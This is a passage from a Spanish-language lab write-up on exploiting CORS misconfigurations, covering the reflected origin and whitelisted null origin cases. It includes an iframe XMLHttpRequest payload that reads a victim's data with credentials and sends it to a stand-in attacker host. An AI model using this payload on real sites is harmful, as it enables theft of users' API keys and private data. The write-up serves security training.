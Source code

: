 Así, todo lo que queda es entregar este script a la víctima (nuestro administrador). De esta forma, al visitar la víctima este sitio web se ejecutará el código JavaScript que solicitará el contenido de accountDetails, le será dado el contenido porque admite cualquier origen y después, al ver el Access log podremos ver una URL con el logeo del administrador y su API key:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220503235601.png' | relative_url }}" text-align="center"/>
</div>

Completando así el laboratorio.

<br />

- **Valor de origen nulo incluido en la lista blanca**

La especificación del encabezado Origin admite el valor **null**. Los navegadores pueden enviar el valor null en el encabezado Origen en varias situaciones inusuales. El caso es que en algunos casos, algunas aplicaciones pueden incluir en la lista blanca el valor null en la cabecera origin para admitir el desarrollo local de la aplicación. 

Por ejemplo, suponga que una aplicación recibe la siguiente solicitud:

```default
GET /data HTTP/1.1
Origin: null
```

Devolviendo la respuesta:

```default
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

En esta situación, un atacante puede usar varios trucos para generar una solicitud, como generar una solicitud 'iframe'

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true; req.send();
function reqListener() {

location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

<br />

**Laboratorio 2: CORS vulnerability with trusted null origin**

Este sitio web contiene una configuración insegura de CORS que permite el valor null como buena dentro del encabezado origin. Obtener la API key del administrador para completar el laboratorio. Se dispone de las credenciales wiener:peter.
